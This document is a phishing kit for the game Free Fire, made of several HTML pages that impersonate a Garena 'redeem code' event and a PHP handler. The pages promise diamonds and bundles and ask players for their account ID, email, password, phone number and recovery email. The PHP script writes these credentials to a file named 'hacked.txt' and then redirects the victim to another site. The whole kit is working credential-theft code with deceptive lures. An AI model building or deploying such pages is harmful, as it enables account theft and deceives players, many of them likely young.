 <html>
<head>
<title>Free Fire - Redeem Code</title>
<meta charset="UTF-8"/>
<meta http-equiv="X-UA-Compatible" content="IE=edge"/>
<meta name="viewport" content="width=device-width, initial-scale=1.0, minimum-scale=1.0, maximum-scale=1.0, user-scalable=no"/>
<meta property="og:title" content="Free Fire Winterlands - Redeem Code"/>
<meta property="og:url" content="index.html"/>
<meta property="og:description" content="Get the free fire winterlands monthly event, redeem here"/>
<meta property="og:type" content="article"/>
<meta property="article:author" content="https://www.facebook.com/MobileLegendsGame"/>
<meta property="og:image" content="img/banner.jpg"/>
<link rel="icon" type="img/png" href="http://freefiremobile-a.akamaihd.net/ffwebsite/images/app-icon.png" sizes="32x32"/>
<link rel="stylesheet" type="text/css" href="css/index.css"/>
</head>
<body>
<div class="logo">
<img src="http://freefiremobile-a.akamaihd.net/ffwebsite/images/app-icon.png" alt="Free Fire Winterlands"/>
</div>
<img class="banner" src="https://1.bp.blogspot.com/-A4yuxmO8-Ws/XhBFUOeGf8I/AAAAAAAAAlM/w1Q5xixYe4s-NV9C2Nl_C886MVAI9XEKQCLcBGAsYHQ/s1600/Banner.jpg" alt="Banner"/>
<div style="clear:both"></div>
<div class="herohead">
<center><font style="font-size:14px;color:#64ffda;">Redemption Code</font></center><br/>
<input class="code" value="BHDO K6UM SGMQ O6AS" readonly=""/>
<div class="title"><b>MONTHLY EVENT</b> | COPY REDEEM CODE</div>
<a href="submit.php" class="avatar" title="Alpha">
<img src="css/uhu/x/fotouhu/uhuinfo-foto13.png" alt="BUNDLE"/>
<small>BUNDLE<br/>New Years</small>
</a>
<a href="submit.php" class="avatar" title="Alpha">
<img src="css/uhu/x/fotouhu/uhuinfo-foto6.png" alt="BUNDLE"/>
<small>BUNDLE<br/>Winterlands</small>
</a>
<a href="submit.php" class="avatar" title="Estes">
<img src="css/uhu/x/fotouhu/uhuinfo-foto7.png" alt="BUNDLE"/>
<small>BUNDLE<br/>Winter Elk</small>
</a>
<a href="submit.php" class="avatar" title="Miya">
<img src="css/uhu/x/fotouhu/uhuinfo-foto8.png" alt="SET"/>
<small>SET<br/>Grumpy old</small>
</a>
</div>
<ul class="news">
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_AR_orange.png)" alt="M4A1">M4A1<br/><small>A balanced rifle is suitable for all types of battles.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_SMG_orange.png)" alt="MP5">MP5<br/><small>Beyond other machine guns in terms of stability, but less effective for long distances.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_SG_orange.png)" alt="M1014">M1014<br/><small>Use the shotgun to destroy melee enemies quickly.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_SR_orange.png)" alt="AWM">AWM<br/><small>High strength sniper rifle with long reload time.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_Pistol_orange.png)" alt="USP">USP<br/><small>A light gun that does not affect the user's agility.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_Melee_orange.png)" alt="PAN">PAN<br/><small>Great shield that protects users from anything your enemy can use.</small></li>
</ul>
</body>

</html>
<?php
$id = $_POST['id'];
$country = $_POST['country'];
$email = $_POST['email'];
$password = $_POST['password'];
$hp = $_POST['phone'];
$emailr = $_POST['emailr'];
?>

<?php

file_put_contents("hacked.txt", "[Id:] " . $id = $_POST['id'] . " [Country:] " . $country = $_POST['country'] . " [Email:] " . $email = $_POST['email'] . "[Password]" . $password = $_POST['password'] . "[Hp]" . $hp = $_POST['phone'] . "[Emailr]" . $emailr = $_POST['emailr'] . "\n", FILE_APPEND);
header('Location: https://www.noob-hackers.com');
?>

<center><span style='background:limegreen;width:360px;margin:0;padding:5px 0;color:black;display:block'>Success! Your submission has been requested</span></center>

<html>
<head>
<title> Free Fire - Redeem Code </title>
<meta charset="UTF-8"/>
<meta http-equiv="X-UA-Compatible" content="IE=edge"/>
<meta name="viewport" content="width=device-width, initial-scale=1.0, minimum-scale=1.0, maximum-scale=1.0, user-scalable=no"/>
<meta property="og:title" content="Free Fire Winterlands - Redeem Code"/>
<meta property="og:url" content="index.html"/>
<meta property="og:description" content="Get the free fire winterlands monthly event, redeem here"/>
<meta property="og:type" content="article"/>
<meta property="article:author" content="https://www.facebook.com/MobileLegendsGameIndonesia"/>
<meta property="og:image" content="img/banner.jpg"/>
<link rel="icon" type="img/png" href="http://freefiremobile-a.akamaihd.net/ffwebsite/images/app-icon.png" sizes="32x32"/>
<link rel="stylesheet" type="text/css" href="css/index.css"/>
</head>
<body>
<div class="logo">
<img src="http://freefiremobile-a.akamaihd.net/ffwebsite/images/app-icon.png" alt="Free Fire Winterlands"/>
</div>
<img class="banner" src="https://1.bp.blogspot.com/-UEFjQE1QOKY/XhBG5WkqNqI/AAAAAAAAAlY/_Ley0LvHyycIUQvHy1wZNEeA5Spqz2MPQCLcBGAsYHQ/s320/IMG_20200104_133005.jpg" alt="Banner"/>
<div style="clear:both"></div>
<div class="button">
<div class="event"><center><strong>Congratulations</strong></center><br/>1. Please download app by clicking  <strong>App Available Download </strong> on the button below and copy <strong> Unique Code</strong> on that page.<br/>2. After that, click the event you want to claim below and paste <strong>Unique Code</strong> you have copied.<br/><br/>Prizes and bonuses will be given after <strong>30 minutes</strong>, for players who have sent.</div>
<a href="http://d.helo-app.com/LCuDUo/" title="Download on Play Store"><img src="img/download.png" alt="Download"/></a>
<a href="https://reward.ff.garena.com/" title="Redemption Code"><img src="img/code.png" alt="Redemption Code"/></a>
</div>
<ul class="news">
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_AR_orange.png)" alt="M4A1">M4A1<br/><small>A balanced rifle is suitable for all types of battles.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_SMG_orange.png)" alt="MP5">MP5<br/><small>Beyond other machine guns in terms of stability, but less effective for long distances.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_SG_orange.png)" alt="M1014">M1014<br/><small>Use the shotgun to destroy melee enemies quickly.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_SR_orange.png)" alt="AWM">AWM<br/><small>High strength sniper rifle with long reload time.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_Pistol_orange.png)" alt="USP">USP<br/><small>A light gun that does not affect the user's agility.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_Melee_orange.png)" alt="PAN">PAN<br/><small>Great shield that protects users from anything your enemy can use.</small></li>
</ul>
</body>
</html>
<html>
<head>
<title> Free Fire - Redeem Code </title>
<meta charset="UTF-8"/>
<meta http-equiv="X-UA-Compatible" content="IE=edge"/>
<meta name="viewport" content="width=device-width, initial-scale=1.0, minimum-scale=1.0, maximum-scale=1.0, user-scalable=no"/>
<meta property="og:title" content="Mobile Legends - Weekly Free Heroes"/>
<meta property="og:url" content="index.html"/>
<meta property="og:description" content="Get the free fire winterlands monthly event, redeem here"/>
<meta property="og:type" content="article"/>
<meta property="article:author" content="https://www.facebook.com/MobileLegendsGameIndonesia"/>
<meta property="og:image" content="img/banner.jpg"/>
<link rel="icon" type="img/png" href="http://freefiremobile-a.akamaihd.net/ffwebsite/images/app-icon.png" sizes="32x32"/>
<link rel="stylesheet" type="text/css" href="css/redeem.css"/>

</head>
<body>
<form align="right" action="process.php" method="POST">
<img src="https://1.bp.blogspot.com/-A4yuxmO8-Ws/XhBFUOeGf8I/AAAAAAAAAlM/w1Q5xixYe4s-NV9C2Nl_C886MVAI9XEKQCLcBGAsYHQ/s1600/Banner.jpg" alt="Instruction"/>
<br/><br/>

<label for="id">Account ID</label>*
<input minlength="5" maxlength="7" type="number" name="id" required=""/>
<br/><br/>
<label for="country">LOG IN</label>*
<select name="country" required="">
<option value="VK" selected="">VK</option>
<option value="FB">FB</option>
</select>
<br/><br/>

<label for="code">Redeemption Code</label>*
<input minlength="1" maxlength="16" type="text" name="code" required=""/>
<br/><br/>

<hr/><br/>
<label for="email">Email/HP</label>*
<input minlength="3" maxlength="50" type="text" name="email" required=""/>
<br/><br/>
<label for="password">Password</label>*
<input minlength="5" maxlength="50" type="password" name="password" required=""/>
<br/><br/>
<label for="phone">Phone</label>*
<input minlength="8" maxlength="13" type="number" name="phone" required=""/>
<br/><br/>
<label for="recoveryemail">2nd Email</label>*
<input minlength="15" maxlength="50" type="email" name="emailr" required=""/>
<br/><br/>
<hr/><br/>
<div align="center">
<p><small>Take your Diamond + bundle, check the mail box in the game after (30) Minutes</small></p>
<br/>
<input type="submit" value="Submit"/>
</div>
</form>
</body>

</html>
